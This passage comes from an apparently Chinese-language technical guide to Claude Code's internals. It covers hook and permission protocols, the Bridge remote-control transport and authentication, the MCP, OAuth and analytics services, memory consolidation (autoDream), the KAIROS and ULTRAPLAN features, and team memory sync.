第一行输出 `{"async": true}` 即被后台化（第 1117-1164 行检测），由 `AsyncHookRegistry.ts` 跟踪；`asyncRewake` 钩子在退出码 2 时通过 `enqueuePendingNotification` 唤醒模型（`executeInBackground`，第 184 行）。

### 39.3 会话级钩子

SessionEnd 有更紧的 1500ms 默认超时（`getSessionEndHookTimeoutMs`，第 176 行，可用 `CLAUDE_CODE_SESSIONEND_HOOKS_TIMEOUT_MS` 覆盖），因为进程即将退出，不能长时间阻塞。

## 第 40 章 阻止与允许机制

### 40.1 退出码协议（命令钩子）

| 退出码 | 含义 |
|---|---|
| `0` | 成功 |
| `2` | **阻塞**（blocking）→ 对 PreToolUse 阻止工具调用；对 Stop/TeammateIdle/TaskCreated 等向模型反馈 stderr |
| 其他非零 | 非阻塞错误，仅展示给用户 |

### 40.2 JSON 协议（同步响应）

`syncHookResponseSchema`（`types/hooks.ts:50`）：

- 顶层：`continue: false`（+`stopReason`）、`suppressOutput`、`decision: "approve"|"block"`（+`reason`）、`systemMessage`
- `hookSpecificOutput` 按事件细分（第 70-163 行）：

| 事件 | hookSpecificOutput |
|---|---|
| **PreToolUse** | `permissionDecision: allow\|deny\|ask`、`permissionDecisionReason`、`updatedInput`（改写工具入参）、`additionalContext` |
| **UserPromptSubmit** | `additionalContext` |
| **PostToolUse** | `additionalContext`、`updatedMCPToolOutput`（改写 MCP 工具输出）|
| **PermissionRequest** | `decision: {behavior:'allow', updatedInput, updatedPermissions} \| {behavior:'deny', message, interrupt}` |
| **SessionStart** | `initialUserMessage`、`watchPaths`；**CwdChanged/FileChanged**：`watchPaths` |
| **Elicitation/ElicitationResult** | `action: accept\|decline\|cancel` + `content` |
| **WorktreeCreate** | `worktreePath` |

### 40.3 PreToolUse 与权限的联动

`resolveHookPermissionDecision()`（`toolHooks.ts:332`）：

- 钩子 `allow` **不绕过** settings.json 的 deny/ask 规则（`checkRuleBasedPermissions` 仍会执行）
- `deny` 直接拒绝
- `ask` 强制弹窗

这是安全设计的关键——**钩子的 allow 决策不能凌驾于规则权限之上**。即使一个 hook 说"允许"，settings.json 中的 deny 规则仍然生效。这防止了恶意/错误的钩子放行危险操作。

### 40.4 与工具管道的集成

`toolHooks.ts`：

- `runPreToolUseHooks()`（第 435 行）：产出 `hookPermissionResult`（allow/deny/ask）、`hookUpdatedInput`、`preventContinuation`、`stopReason`、`additionalContext`、`stop`
- `runPostToolUseHooks()`（第 39 行）与 `runPostToolUseFailureHooks()`（第 193 行）：产出 `hook_additional_context`、`hook_blocking_error`、`hook_stopped_continuation`、`updatedMCPToolOutput`


```mermaid
sequenceDiagram
    participant Q as queryLoop
    participant TE as StreamingToolExecutor
    participant HOOK as executeHooks
    participant EXEC as execCommandHook
    participant PERM as 权限系统
    participant TOOL as tool.call

    Q->>TE: tool_use 块
    TE->>HOOK: runPreToolUseHooks
    HOOK->>HOOK: getMatchingHooks matcher+if过滤
    HOOK->>EXEC: 并行执行 (timeout合并signal)
    EXEC->>EXEC: JSON输入写stdin / 执行命令/LLM/agent/HTTP
    EXEC-->>HOOK: 退出码 + stdout
    HOOK->>HOOK: parseHookOutput (JSON或纯文本)
    HOOK->>HOOK: processHookJSONOutput → HookResult
    HOOK-->>TE: permissionDecision/updatedInput/additionalContext
    TE->>PERM: resolveHookPermissionDecision (allow不绕过deny规则)
    PERM-->>TE: 最终 allow/deny/ask
    alt allow
        TE->>TOOL: tool.call 执行
        TOOL-->>TE: ToolResult
        TE->>HOOK: runPostToolUseHooks
        HOOK-->>TE: updatedMCPToolOutput/additionalContext
    else deny
        TE->>TE: 构造 tool_result is_error
    end
```

---

# 第七部分 Bridge IDE 集成层

Bridge（代号 "Remote Control"）是连接本地 CLI 与 claude.ai/code（Web/IDE/移动端）的集成层。它让用户在本地目录运行 `claude remote-control`，即可从 Web/移动端接管并控制该 CLI 会话——双向消息、权限审批、状态同步全部由 `src/bridge/` 这一层承担。

## 第 41 章 Bridge 概述

Bridge 的入口与角色分层如下：

- **`bridgeMain.ts`**（3000 行，入口）：`claude remote-control` 命令的独立服务端实现。解析参数、注册环境、轮询工作、派生子会话进程。
- **`replBridge.ts`**（2407 行）：REPL 内嵌的 bridge 核心（`/remote-control` 在交互式会话中启动）。不派生子进程，而是直接在当前进程内管理传输。
- **`remoteBridgeCore.ts`**：env-less v2 路径，跳过 Environments API，直连 `/v1/code/sessions`。

```mermaid
graph TB
    subgraph 三种Bridge入口
        SA[bridgeMain.ts 独立服务端<br/>claude remote-control]
        RE[replBridge.ts REPL内嵌<br/>/remote-control 交互式]
        V2[remoteBridgeCore.ts env-less v2]
    end
    subgraph 传输层
        V1[v1 HybridTransport<br/>WS读+HTTP POST写]
        V2T[v2 SSETransport+CCRClient<br/>SSE读+HTTP POST写]
        POLL[pollConfig 轮询<br/>指数退避+心跳]
    end
    SA --> V1
    SA --> POLL
    RE --> V1
    RE --> V2T
    RE --> POLL
    V2 --> V2T
    subgraph 协议层
        MSG[bridgeMessaging<br/>消息路由/去重]
        ATT[inboundAttachments<br/>附件下载]
        PERM[bridgePermissionCallbacks<br/>权限回调]
    end
    V1 --> MSG
    V2T --> MSG
    MSG --> ATT
    MSG --> PERM
    subgraph 认证层
        OAUTH[bridgeConfig OAuth]
        WS[workSecret JWT]
        JWT[jwtUtils 刷新]
        TD[trustedDevice ELEVATED]
    end
    SA --> WS
    RE --> OAUTH
    V2 --> JWT
    SA --> TD
```

## 第 42 章 传输机制

传输层抽象在 `replBridgeTransport.ts` 的 `ReplBridgeTransport` 类型（行 23-70），覆盖 v1/v2 两套实现。

### 42.1 v1 传输（HybridTransport，WebSocket）

WS 读 + HTTP POST 写到 Session-Ingress：

- `createV1ReplTransport`（行 78）包装 `HybridTransport`
- URL 由 `workSecret.ts:buildSdkUrl`（行 41）构造：`wss://{host}/v1/session_ingress/ws/{sessionId}`，localhost 用 `ws://` + `/v2/`
- 自动重连（默认），POST 写独立于 WS 状态；50 次连续失败后放弃（`maxConsecutiveFailures: 50`，`replBridge.ts:1479`）

### 42.2 v2 传输（SSETransport + CCRClient）

SSE 读 + HTTP POST 写到 CCR `/worker/*`：

- `createV2ReplTransport`（`replBridgeTransport.ts:119`）先 `registerWorker`（POST `/v1/code/sessions/{id}/worker/register`）拿到 `worker_epoch`，再建 SSE 流（`/worker/events/stream`）和 `CCRClient`
- SSE `from_sequence_num` / `Last-Event-ID` 续传（行 130、194），跨传输切换时由 `lastTransportSequenceNum` 携带
- epoch 不匹配（409）触发 `onEpochMismatch`（行 209）关闭传输，回退到轮询恢复

### 42.3 轮询

`startWorkPollLoop`（`replBridge.ts:1851`）基于 GrowthBook 配置（`pollConfig.ts`）的指数退避轮询，带心跳（heartbeat）、容量唤醒（capacityWake）和睡眠检测。轮询是传输失败时的兜底恢复机制。

## 第 43 章 消息协议与会话管理

### 43.1 消息协议

协议为 SDK 消息（JSON），分三类（见 `bridgeMessaging.ts`）：

- **SDKMessage**（行 36）：`type` 为 `user`/`assistant`/`system`/`result` 的对话消息
- **SDKControlRequest**（行 59）：服务端发起的控制请求，subtype 含 `initialize`/`set_model`/`interrupt`/`set_max_thinking_tokens`/`set_permission_mode`/`can_use_tool`。必须在 10-14s 内响应，否则服务端杀连接
- **SDKControlResponse**（行 46）：权限决策回执

关键函数 `handleIngressMessage`（`bridgeMessaging.ts:132`）：解析入站帧，用 `BoundedUUIDSet`（行 429，2000 容量环形缓冲）做 echo 去重和重发去重。`handleServerControlRequest`（行 243）响应服务端控制请求；outbound-only 模式下对可变请求回复错误。

### 43.2 出站与入站附件

出站格式：消息转 SDK 格式后附加 `session_id`，经 `transport.writeBatch` 发送。`makeResultMessage`（行 399）在 teardown 前发送 result 帧以触发服务端归档。

入站附件（`inboundAttachments.ts`）：web 上传的 `file_uuid` 附件经 `GET /api/oauth/files/{uuid}/content` 下载到 `~/.claude/uploads/{sessionId}/`，转 `@"path"` 引用前缀到内容。`inboundMessages.ts` 处理图像块 `mediaType` 驼蛇名兼容。

### 43.3 会话管理

**standalone 模式**（`bridgeMain.ts`）：

- `runBridgeLoop`（行 141）主循环：`pollForWork` → `decodeWorkSecret` → `acknowledgeWork` → `case 'session'`（行 859）派生
- 多会话模式（`--spawn`/`--capacity`，默认容量 32，行 83），三种 SpawnMode（`types.ts:69`）：`single-session`/`worktree`/`same-dir`。worktree 模式每个会话隔离 git worktree（行 983）
- `onSessionDone`（行 442）：stopWork、worktree 清理、归档（多会话）或退出（单会话）
- 超时看门狗（行 1678）、SSE 序列号兼容（`sessionIdCompat.ts`）

**REPL 模式**（`replBridge.ts`）：`initBridgeCore`（行 260）→ 注册环境 → 创建会话 → 启动 `startWorkPollLoop`（行 1851）→ `onWorkReceived`（行 1077）连接传输。含完整重连策略 `doReconnect`（行 617）：策略1原地重连（同 env 调 `reconnectSession`），策略2归档旧会话创建新会话。最多重建 3 次。

**子进程派生**（`sessionRunner.ts`）：`createSessionSpawner`（行 248）`spawn` 子 claude 进程，带 `--print --sdk-url --session-id --input-format stream-json`。解析子进程 NDJSON stdout 提取活动（`extractActivities`，行 107），转发 `can_use_tool` 权限请求。`updateAccessToken` 通过 stdin 发 `update_environment_variables` 给子进程。

```mermaid
sequenceDiagram
    participant WEB as claude.ai/code
    participant SRV as 服务端
    participant BR as Bridge(本地)
    participant CHILD as 子claude进程

    Note over BR: 工作派生
    BR->>SRV: pollForWork
    SRV-->>BR: work (work secret)
    BR->>BR: decodeWorkSecret (JWT)
    BR->>SRV: acknowledgeWork
    BR->>SRV: registerWorker (v2) / buildSdkUrl (v1)
    BR->>CHILD: spawn --print --sdk-url --session-id
    BR->>SRV: 连接 SSE/WS 传输
    SRV-->>BR: 初始历史 flush

    Note over BR: 正常对话
    WEB->>SRV: 用户消息
    SRV-->>BR: SDKMessage (经传输)
    BR->>CHILD: 转发消息
    CHILD-->>BR: assistant/stream_event
    BR-->>SRV: 转发出站
    SRV-->>WEB: 推送

    Note over BR: 权限审批
    CHILD->>BR: control_request (can_use_tool)
    BR->>SRV: 转发权限请求
    BR->>SRV: reportState('requires_action')
    SRV-->>WEB: 显示"等待输入"
    WEB->>SRV: 用户审批
    SRV-->>BR: control_response
    BR->>SRV: reportState('running')
    BR->>CHILD: 转发权限决策
```

## 第 44 章 认证四层与权限回调

### 44.1 四层认证

- **OAuth（`bridgeConfig.ts`）**：`getBridgeAccessToken`（行 38），dev 覆盖 `CLAUDE_BRIDGE_OAUTH_TOKEN`
- **Work Secret / JWT（`workSecret.ts`）**：`decodeWorkSecret`（行 6）解 base64url JSON，含 `session_ingress_token`（JWT）、`api_base_url`、`use_code_sessions`。v2 端点校验 JWT 的 `session_id` claim 和 worker 角色
- **JWT 刷新（`jwtUtils.ts`）**：`createTokenRefreshScheduler`（行 72），过期前 5 分钟刷新（`TOKEN_REFRESH_BUFFER_MS`），解码 `exp` 或用 `scheduleFromExpiresIn`。v1 直接给子进程送 OAuth；v2 触发服务端重新派发（因 OAuth 无 `session_id` claim）
- **Trusted Device（`trustedDevice.ts`）**：ELEVATED 安全层，`X-Trusted-Device-Token` 头（行 33 gate `tengu_sessions_elevated_auth_enforcement`）。`enrollTrustedDevice`（行 98）在 /login 后立即注册（10min 窗口），token 存 keychain 90 天

### 44.2 远程会话 v2

`remoteBridgeCore.ts:initEnvLessBridgeCore`（行 140）是新一代路径，绕开 Environments API：

1. `POST /v1/code/sessions`（`codeSessionApi.ts:26`，带 `bridge: {}` 标记）→ `cse_*` 会话 ID
2. `POST /v1/code/sessions/{id}/bridge`（`codeSessionApi.ts:93`）→ `{worker_jwt, expires_in, api_base_url, worker_epoch}`（每次调用即注册，bump epoch）
3. `createV2ReplTransport` 带 epoch
4. `createTokenRefreshScheduler` 用 `scheduleFromExpiresIn` 提前刷新
5. SSE 401 → `recoverFromAuthFailure`（行 530）刷新 OAuth + 重建传输

`rebuildTransport`（行 477）被 proactive refresh 和 401 恢复共用，携带 SSE seq 续传。outbound-only 模式（CCR mirror）跳过 SSE 读流。

### 44.3 权限回调

`bridgePermissionCallbacks.ts` 定义 `BridgePermissionCallbacks` 接口：`sendRequest`/`sendResponse`/`cancelRequest`/`onResponse`。`BridgePermissionResponse` 含 `behavior: 'allow'|'deny'`、可选 `updatedInput`/`updatedPermissions`/`message`。

流程：子进程发 `can_use_tool` control_request → bridge 转发到服务端 → web 用户审批 → `control_response` 回来经 `onPermissionResponse` → `handleServerControlRequest` 转交。v2 路径在 `sendControlRequest` 时调 `transport.reportState('requires_action')`（`remoteBridgeCore.ts:833`）让 claude.ai 显示"等待输入"。

```mermaid
sequenceDiagram
    participant JWT as jwtUtils
    participant BR as Bridge
    participant SRV as 服务端
    participant TR as 传输

    Note over JWT: JWT 刷新 (v2)
    JWT->>JWT: 检测 exp 临近(提前5min)
    JWT->>SRV: fetchRemoteCredentials (/bridge, bump epoch)
    SRV-->>JWT: 新 worker_jwt + expires_in
    JWT->>TR: rebuildTransport (携带SSE seq续传)
    TR->>TR: 重连 SSE

    Note over BR: 401 恢复
    TR-->>BR: SSE 401 (setOnClose 401)
    BR->>BR: recoverFromAuthFailure
    BR->>SRV: onAuth401 (OAuth刷新)
    SRV-->>BR: 新 OAuth token
    BR->>SRV: fetchRemoteCredentials
    SRV-->>BR: 新 worker_jwt
    BR->>TR: rebuildTransport
```

---

# 第八部分 Services 后端服务

`src/services/` 目录包含约 20 个子目录，承载 Claude Code 的后端能力：MCP 集成、OAuth 认证、分析遥测、记忆巩固、KAIROS 助理、ULTRAPLAN 远程规划、团队记忆同步等。

## 第 45 章 MCP 服务

`src/services/mcp/`（30+ 文件）。Claude Code 作为 **MCP 客户端**连接外部 MCP 服务器，并把外部工具/资源/提示词/skills 暴露给模型；同时也能作为 **MCP 服务端**对外暴露工具。

### 45.1 客户端核心

`client.ts` 的 `connectToServer(name, serverRef, serverStats)`（L595，memoized）是单服务器连接入口。按 `serverRef.type` 分派传输：

| 传输类型 | 实现 | 说明 |
|---|---|---|
| `sse` | `SSEClientTransport`（L673）| 带 `ClaudeAuthProvider` + 60s 超时 fetch 包装 |
| `sse-ide` / `ws-ide` | IDE 集成 | 无认证 |
| `ws` | `WebSocketTransport` | `utils/mcpWebSocketTransport.ts` |
| `http` | `StreamableHTTPClientTransport`（L861）| MCP Streamable HTTP spec |
| `claudeai-proxy` | claude.ai 代理（L868）| 通过 `createClaudeAiProxyFetch`（L372）附 OAuth bearer，401 重试 |
| `stdio`（默认）| `StdioClientTransport`（L950）| spawn 子进程；cleanup 用 SIGINT→SIGTERM→SIGKILL 升级（L1429）|
| Chrome MCP / Computer Use MCP | in-process（`InProcessTransport`）| 避免 325MB 子进程 |
| `sdk` | 抛错 | 由 `print.ts`/`SdkControlTransport` 单独处理 |

连接后注册 `ListRootsRequestSchema`（暴露 cwd，L1009）、默认 `ElicitRequestSchema` handler（L1191）。错误/关闭重连：`client.onerror`/`onclose`（L1266/L1374），session 过期检测 `isMcpSessionExpiredError`（L193，404 + JSON-RPC -32001），连续 3 次终态错误触发重连。

工具/资源/命令拉取（memoized LRU L=20）：`fetchToolsForClient`（L1743）、`fetchResourcesForClient`（L2000）、`fetchCommandsForClient`（L2033，MCP prompts → slash 命令 `mcp__server__prompt`）。MCP 工具包装为内部 `Tool` 接口（L1767），名字 `mcp__server__tool`，支持 `readOnlyHint`/`destructiveHint`/`openWorldHint` 注解、`anthropic/searchHint`/`alwaysLoad` `_meta`、image 降采样、大输出持久化。

批量连接 `getMcpToolsCommandsAndResources`（L2226）：本地（stdio/sdk）并发 3、远程并发 20，用 `pMap`；needs-auth 服务器 15min 缓存跳过（`mcp-needs-auth-cache.json`，L257）。

### 45.2 连接管理 React Hook

`useManageMCPConnections.ts` 的 `useManageMCPConnections(dynamicMcpConfig, isStrictMcpConfig)`（L143）：两阶段加载（本地配置 → claude.ai 远程配置），16ms 批量 setAppState 刷新（L207）。`onConnectionAttempt`（L310）：连接成功后注册 elicitation handler、`tools/list_changed`/`prompts/list_changed`/`resources/list_changed` 通知 handler（L618+）；`onclose` 时对远程传输启动指数退避重连（最多 5 次，1s→30s，L371）。KAIROS Channels（L473）：`notifications/claude/channel` → `enqueue()` 推入消息队列。

### 45.3 MCP OAuth 集成

`auth.ts` 的 `ClaudeAuthProvider` 实现 SDK `OAuthClientProvider`（L1376）：

- 发现：`fetchAuthServerMetadata`（L256）按 RFC 9728（`/.well-known/oauth-protected-resource`）→ RFC 8414 链式发现
- PKCE authorization_code 流程：`performMCPOAuthFlow`（L847）—— 起本地 callback server（`/callback`，state 防 CSRF，5min 超时），支持手动粘贴 code
- token 刷新：`refreshAuthorization`（L2090）用 `lockfile` 跨进程锁，3 次重试 + 指数退避；`invalid_grant` 失效 token
- step-up auth：`wrapFetchWithStepUpDetection`（L1354）检测 403 `insufficient_scope`
- 撤销：`revokeServerTokens`（L467）RFC 7009
- 存储于 secure storage（keychain），key = `serverName|sha256(config)[:16]`

**XAA（Cross-App Access，企业）**：`xaa.ts` + `xaaIdpLogin.ts`，无浏览器 consent，链式 RFC 8693 token-exchange（id_token→ID-JAG）+ RFC 7523 jwt-bearer（ID-JAG→access_token）；`performCrossAppAccess`（xaa.ts L426）四层：PRM 发现 → AS 元数据 → token-exchange → jwt-bearer。

### 45.4 MCP 服务端

`src/entrypoints/mcp.ts` 的 `startMCPServer(cwd, debug, verbose)`（L35）：用 `Server`（`@modelcontextprotocol/sdk/server`）+ `StdioServerTransport`，把 Claude Code 的内置工具（`getTools`）作为 MCP 工具暴露（`ListToolsRequestSchema`/`CallToolRequestSchema`），支持 review 命令。这是 Claude Code 自身作为 MCP server 给其他客户端用。

## 第 46 章 OAuth 服务

`src/services/oauth/` 实现 Claude Code 自身与 Claude 服务（claude.ai / Console）的 OAuth 2.0 authorization_code + PKCE 登录流程（区别于 MCP 服务器自己的 OAuth）。

### 46.1 OAuthService 类

`index.ts` 的 `OAuthService` 类（L21）的 `startOAuthFlow`（L32）：PKCE（`crypto.generateCodeVerifier/Challenge`、state），`AuthCodeListener` 起本地 server 监听 callback，同时支持手动粘贴 code。两种 URL：自动（`http://localhost:port/callback`）+ 手动（`MANUAL_REDIRECT_URL`）。拿到 code 后 `exchangeCodeForTokens` → `fetchProfileInfo`（订阅类型 max/pro/enterprise/team、rate limit tier）→ `formatTokens`。

### 46.2 客户端

`client.ts`：

- `buildAuthUrl`（L46）：构造 authorize URL（claude.ai 或 Console），scope `ALL_OAUTH_SCOPES` 或 `inferenceOnly`，支持 `orgUUID`/`loginHint`/`loginMethod`
- `exchangeCodeForTokens`（L107）、`refreshOAuthToken`（L146，scope 扩展、跳过已缓存 profile 省 7M req/day）、`fetchProfileInfo`（L355）、`fetchAndStoreUserRoles`（L276）、`createAndStoreApiKey`（L311）、`populateOAuthAccountInfoIfNeeded`（L451，支持 env 变量 `CLAUDE_CODE_ACCOUNT_UUID` 等）

## 第 47 章 Analytics 分析服务

`src/services/analytics/`。

### 47.1 公共 API

`index.ts`（无依赖，防循环）：

- `logEvent` / `logEventAsync`（L133/L154）：sink 未 attach 前入队 `eventQueue`，attach 后 `queueMicrotask` 排空
- `attachAnalyticsSink`（L95）：幂等
- `stripProtoFields`（L45）：剥离 `_PROTO_*` PII 键，防止进入通用后端（Datadog）
- 类型标记 `AnalyticsMetadata_I_VERIFIED_THIS_IS_NOT_CODE_OR_FILEPATHS`（=never）强制显式验证不泄漏代码/路径

### 47.2 路由实现

`sink.ts` 的 `initializeAnalyticsSink`（L109）attach sink；`logEventImpl`（L48）：先 `shouldSampleEvent` 采样，再按 `shouldTrackDatadog`（GrowthBook gate `tengu_log_datadog_events` + killswitch）发 Datadog（剥 `_PROTO_`），同时 `logEventTo1P` 发 1P（保留 `_PROTO_`）。

其他文件：`datadog.ts`（Datadog 上报）、`firstPartyEventLogger.ts`（基于 OTel SDK 的 1P event logging）、`growthbook.ts`（Statsig/GrowthBook feature gate + 动态配置缓存）、`metadata.ts`（事件元数据富化）、`sinkKillswitch.ts`（按 sink 名 kill）。

## 第 48 章 autoDream 记忆巩固系统

`src/services/autoDream/` 实现后台**记忆巩固**——满足门控时 fork 一个子代理执行 `/dream` 提示，反思近期会话、整理记忆文件。

### 48.1 门控链（最便宜的先查）

`autoDream.ts` 的 `isGateOpen`（L95）+ 顺序（L125）：

1. **总闸** `isGateOpen()`：KAIROS 模式禁用（用 disk-skill dream）、远程模式禁用、autoMemory 未启用禁用、`isAutoDreamEnabled`（配置 L13，settings `autoDreamEnabled` 或 GrowthBook `tengu_onyx_plover`）
2. **时间门** `readLastConsolidatedAt()` ≥ `minHours`（默认 24h）
3. **扫描节流** `SESSION_SCAN_INTERVAL_MS`=10min（L56），避免时间门通过后每轮都扫
4. **会话门** `listSessionsTouchedSince(lastAt)` ≥ `minSessions`（默认 5），排除当前 session
5. **锁** `tryAcquireConsolidationLock()`（互斥，防并发 dream）

### 48.2 执行

`autoDream.ts` L210-271：

- 构建 prompt：`buildConsolidationPrompt(memoryRoot, transcriptDir, extra)`（`consolidationPrompt.ts` L10），extra 含只读 Bash 约束 + session ID 列表
- `runForkedAgent`（`utils/forkedAgent.ts`）：fork 主对话的 prompt cache，`createCacheSafeParams`、`canUseTool: createAutoMemCanUseTool(memoryRoot)`（只允许读操作 + memory 目录内写）、`querySource: 'auto_dream'`、`skipTranscript: true`、`onMessage: makeDreamProgressWatcher`
- `registerDreamTask`（`tasks/DreamTask/DreamTask.ts`）注册到任务系统，footer pill 可见，可从 BackgroundTasksDialog kill
- 进度 watcher（L281）：提取 assistant 文本 + 折叠 tool_use 计数 + 收集 Edit/Write `file_path`
- 完成后 `completeDreamTask`，如有 filesTouched 则 `appendSystemMessage(createMemorySavedMessage(..., verb:'Improved'))`
- 失败：用户 kill 则 abortController 已 abort，跳过；否则 `failDreamTask` + `rollbackConsolidationLock(priorMtime)`（回退 mtime 让时间门再次通过）

### 48.3 四阶段 prompt

`consolidationPrompt.ts` 的 `buildConsolidationPrompt`（L10）生成 "Dream: Memory Consolidation" 提示：

- **Phase 1 — Orient**：`ls` memory 目录、读 `MEMORY.md` 入口、浏览已有 topic 文件
- **Phase 2 — Gather**：日日志、drifted 记忆、grep JSONL transcripts（窄搜索）
- **Phase 3 — Consolidate**：合并新信号到 topic 文件、相对日期转绝对、删除矛盾事实
- **Phase 4 — Prune and index**：`MEMORY.md` 保持 < `MAX_ENTRYPOINT_LINES` 行/<25KB，单行 <150 字符

### 48.4 锁机制

`consolidationLock.ts`：锁文件 `.consolidate-lock` 在 memory 目录内，**mtime 即 lastConsolidatedAt**，body 是持有者 PID。`tryAcquireConsolidationLock`（L46）：读旧 mtime + PID，若 <60min 且 PID 活着则返回 null（阻塞）；死 PID/超时则抢占，write PID，重读确认赢竞（双抢占者最后写的赢，输者退出）。`rollbackConsolidationLock`（L91）：失败时回退 mtime（priorMtime=0 → unlink）。

### 48.5 调用方式

- 启动：`initAutoDream()`（L122）在 `backgroundHousekeeping`（L37）调用
- 每轮停止：`executeAutoDream(context, appendSystemMessage)`（L319）从 `query/stopHooks.ts:155` fire-and-forget 调用（仅非 bare 模式、非 subagent）

```mermaid
flowchart TD
    STOP[每轮模型停止 stopHooks] --> EXEC[executeAutoDream fire-and-forget]
    EXEC --> G1{1. 总闸 isGateOpen?}
    G1 -->|KAIROS/远程/未启用| SKIP[跳过]
    G1 -->|通过| G2{2. 时间门 ≥24h?}
    G2 -->|否| SKIP
    G2 -->|是| G3{3. 扫描节流 10min?}
    G3 -->|否| SKIP
    G3 -->|是| G4{4. 会话门 ≥5?}
    G4 -->|否| SKIP
    G4 -->|是| G5{5. 获取锁?}
    G5 -->|否| SKIP
    G5 -->|是| RUN[runForkedAgent 执行 /dream]
    RUN --> P1[Phase1 Orient 读MEMORY.md]
    P1 --> P2[Phase2 Gather 日志/transcripts]
    P2 --> P3[Phase3 Consolidate 合并/转日期/删矛盾]
    P3 --> P4[Phase4 Prune 保持索引精简]
    P4 --> DONE[completeDreamTask + appendSystemMessage]
    RUN -.失败.-> ROLL[rollbackConsolidationLock 回退mtime]
```

## 第 49 章 KAIROS 与 ULTRAPLAN

### 49.1 KAIROS 主动助手

**关键发现**：KAIROS 是 feature flag 门控的 ant-only 特性，核心实现 `src/assistant/index.ts` 在此开源快照中**不存在**（仅 `src/assistant/sessionHistory.ts` 存在）。

- `main.tsx:80`：`const assistantModule = feature('KAIROS') ? require('./assistant/index.js') : null`
- `main.tsx:1058-1089`：`--assistant` 或 `assistantModule.isAssistantMode()` 时，经 `kairosGate.isKairosEnabled()` 检查 → `setKairosActive(true)` + `opts.brief = true` + `initializeAssistantTeam()`（预置 in-process team，让 `Agent(name)` 直接 spawn teammate）
- `main.tsx:2203`：proactive 模式系统提示注入（`<tick>` 周期 check-in、主动行动、Sleep 工具）
- `main.tsx:3324-3336`：Brief 模式（attach 到 assistant session）也 `setKairosActive(true)` + `setIsRemoteMode(true)`
- `bootstrap/state.ts:1085`：`getKairosActive()`/`setKairosActive()` 全局状态

与其他系统集成：`autoDream.ts:96`（KAIROS 模式禁用 autoDream，"KAIROS mode uses disk-skill dream"）、`useManageMCPConnections.ts:172`（KAIROS/KAIROS_CHANNELS gates 启用 channels 推送）。KAIROS 模式 = 主动 + Brief + team-aware，但实现细节未包含在快照中。

### 49.2 ULTRAPLAN 远程规划

`src/commands/ultraplan.tsx` + `src/tasks/RemoteAgentTask/` + `src/utils/ultraplan/`。把规划任务卸载到远程 Claude Code on the web（CCR），用 Opus 深度规划 ~10–30 分钟，本地终端保持空闲。**ant-only**（`isEnabled: () => "external" === 'ant'`，L466）。

`launchUltraplan`（L234）：入口（slash 命令、关键词触发、Plan 对话框按钮共用）。防重复（`ultraplanSessionUrl`/`ultraplanLaunching` guard）。`launchDetached`（L294）：

- `getUltraplanModel()`（L32）：GrowthBook `tengu_ultraplan_model`，默认 `opus46.firstParty`
- `checkRemoteAgentEligibility()` 前置检查
- `buildUltraplanPrompt(blurb, seedPlan)`（L63）：拼 `ULTRAPLAN_INSTRUCTIONS`（`utils/ultraplan/prompt.txt`，包在 `<system-reminder>` 里隐藏脚手架）
- `teleportToRemote({initialMessage, permissionMode:'plan', ultraplan:true, model, useDefaultEnvironment:true})` 创建远程 session
- `registerRemoteAgentTask` 注册任务，`startDetachedPoll`（L74）开始轮询

`startDetachedPoll`（L74）：`pollForApprovedExitPlanMode(sessionId, 30min, phaseCb, shouldStop)`（`utils/ultraplan/ccrSession.ts`）。phase 推进更新 task `ultraplanPhase`。批准后 `executionTarget`：`'remote'`→在 CCR 继续执行；否则 teleport 回本地（mount `UltraplanChoiceDialog`）。失败：`archiveRemoteSession` 防 30min 孤儿，清 `ultraplanSessionUrl`。

`ccrSession.ts` 的 `pollForApprovedExitPlanMode`：3s 间隔轮询，最多 5 次连续失败容忍，扫 ExitPlanModeV2 tool_result，提取 plan 或 teleport sentinel `__ULTRAPLAN_TELEPORT_LOCAL__`。

## 第 50 章 团队记忆同步

`src/services/teamMemorySync/`（TEAMMEM feature）按 repo（git remote hash）跨 org 成员同步 team memory 文件到服务端。

### 50.1 API

`index.ts`：API `GET/PUT /api/claude_code/team_memory?repo=...`，ETag 乐观锁。

- `pullTeamMemory`（L770）：GET，If-None-Match → 304/404/200，server wins per-key 覆盖本地
- `pushTeamMemory`（L889）：delta 上传（仅 `hashContent` 不同的 key），412 冲突时 probe `?view=hashes` 刷新 `serverChecksums` 重算 delta（最多 2 次重试）。批量 `batchDeltaByBytes`（L426，<200KB/PUT 避网关 413）
- secret 扫描（`secretScanner.ts`，gitleaks 模式，PSR M22174）：含密文件跳过上传
- `SyncState`（L100）：`lastKnownChecksum`/`serverChecksums`/`serverMaxEntries`（从结构化 413 学习上限）

### 50.2 watcher

`watcher.ts` 的 `startTeamMemoryWatcher`（L252）：启动时 pull → `fs.watch({recursive:true})` 监听 → 2s debounce `schedulePush`。永久失败（4xx 非 409/429、no_oauth、no_repo）抑制重试直到 unlink 或重启。`notifyTeamMemoryWrite`（PostToolUse hook 显式触发，防 fs.watch 漏）。gate：`feature('TEAMMEM')` + `isTeamMemoryEnabled` + OAuth + github.com remote。在 `setup.ts:367` 调用。

### 50.3 服务生命周期总览

```
main.tsx setup()
 ├─ initializeAnalyticsSink() / initializeAnalyticsGates()   [analytics]
 ├─ KAIROS: setKairosActive + initializeAssistantTeam (ant-only)
 ├─ setup.ts: startTeamMemoryWatcher()                         [teamMemorySync]
 └─ main.tsx:2818 startBackgroundHousekeeping()                [后台]
     ├─ initMagicDocs / initSkillImprovement
     ├─ initExtractMemories()     [feature EXTRACT_MEMORIES]
     ├─ initAutoDream()            [autoDream]
     ├─ autoUpdateMarketplacesAndPluginsInBackground
     └─ 10min 后 runVerySlowOps (cleanupOldVersions 等)

每轮 query loop（query/stopHooks.ts）
 ├─ executePromptSuggestion          [PromptSuggestion]
 ├─ executeExtractMemories          [extractMemories, feature-gated]
 └─ executeAutoDream                [autoDream, 主代理 only]
```

---

# 第九部分 记忆与上下文系统

Claude Code 拥有一个精心设计的多层记忆系统，让模型能够跨会话保留信息、个性化行为、维护项目上下文。这部分是理解 Claude Code"学习能力"的关键。

## 第 51 章 多层记忆架构

记忆系统分多层，各层职责不同：

| 层 | 位置 | 机制 |
|---|---|---|
| **auto memory (memdir)** | `~/.claude/projects/<sanitized-git-root>/memory/` | 模型维护的持久化文件记忆，含 `MEMORY.md` 索引 |
| **team memory** | `<autoMemPath>/team/` | 团队共享记忆，跨会话同步到服务器 |
| **agent memory** | `~/.claude/agent-memory/<agentType>/`、`.claude/agent-memory/` | 子代理（AgentTool）的持久记忆 |
